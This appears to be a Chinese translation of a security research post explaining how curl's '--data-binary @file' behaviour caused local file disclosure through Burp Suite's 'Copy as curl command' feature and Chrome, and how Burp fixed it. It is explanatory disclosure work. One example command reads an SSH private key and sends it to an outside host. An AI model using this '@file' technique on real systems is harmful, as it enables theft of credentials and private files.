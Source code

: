```yaml
---
date: 2025-08-03T05:15:26+08:00
title: "curl特性曝光Burp Suite和Google Chrome本地文件泄露漏洞"
tags: [网络安全,漏洞挖掘,curl]
authors: qife
image: "https://portswigger.net/cms/9a8b6e0b1d8b5b5a/cover-image/research.jpg"
description: "本文深入分析了curl中一个鲜为人知的特性如何导致Burp Suite Pro和Google Chrome出现本地文件泄露漏洞，详细介绍了漏洞原理、修复方案及潜在影响范围。"
---
```


在这篇文章中，我们将探讨curl中一个鲜为人知的特性，该特性导致了Burp Suite Pro和Google Chrome的本地文件泄露漏洞。虽然我们早已为Burp Suite发布了补丁，但怀疑该技术可能对利用其他具有"复制为curl命令"功能或从命令行调用curl的应用程序有所帮助。该漏洞由Paul Mutton通过我们的漏洞赏金计划私下报告，并慷慨地允许我们发布这篇分析报告。

Burp Suite用户经常构造复杂的HTTP请求来演示网站漏洞。为了更轻松地与他人共享这些概念验证漏洞利用，我们提供了"复制为curl命令"功能，可生成复制Burp Suite中请求的curl命令。

例如，给定以下请求：
```
POST / HTTP/1.1
Host: portswigger.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

点击"复制为curl命令"后，Burp Suite会生成以下命令并复制到剪贴板：
```
curl -i -s -k \
     -X $'POST' \
     -H $'Host: portswigger.net' \
     -H $'Content-Type: application/x-www-form-urlencoded' \
     -H $'Content-Length: 7' \
     --data-binary $'foo=bar' \
     $'https://portswigger.net/'
```

您可以将此命令粘贴到终端中，在Burp Suite外部重新发出请求。我们非常注意转义这些数据，以避免用户因恶意请求注入额外的shell命令或任意curl参数而受到攻击。但不幸的是，存在一个更微妙的问题。您能发现吗？

答案一如既往地藏在友好的手册中：
```
--data-binary <data>
这将完全按指定方式发送数据，不进行任何额外处理。
如果数据以字母@开头，其余部分应为文件名。
```

因此，以下命令是安全的：
```
curl --data-binary '/home/albinowax/.ssh/id_rsa' --trace-ascii - https://02.rs/
=> 发送数据，28字节(0x1c)
0000: /home/albinowax/.ssh/id_rsa
```

而这个就不那么安全了：
```
curl --data-binary '@/home/albinowax/.ssh/id_rsa' --trace-ascii - https://02.rs/
=> 发送数据，662字节(0x296)
> -----BEGIN RSA PRIVATE KEY-----
.b3BlbnNzaC1rZXktdjEA....
(不是我的真实私钥)
```

我们在2020.5.1版本中修复了这个漏洞，如果请求体以@符号开头，就改用更新、更安全但支持较少的--data-raw标志。

我们很幸运，因为在Burp Suite中利用此漏洞需要相对较多的用户交互——攻击者需要诱导用户访问恶意网站，将精心设计的请求复制为curl命令，然后通过命令行执行。如果网站使用curl并带有攻击者控制的请求体，则可能产生更大的影响，因此在SSRF测试期间绝对值得关注。@文件读取行为也适用于标头，因此在允许定义自定义标头的网站上可能有用。

尽管这个特性让我们(和Chrome)感到意外，但它已完全记录在案，因此我们不认为这是curl本身的漏洞。这让我想起了服务器端模板注入，在那里沙箱逃逸可能就像阅读一个被其他人忽视的手册页面一样简单。

再次感谢Paul分享这个很酷的技术。下次见！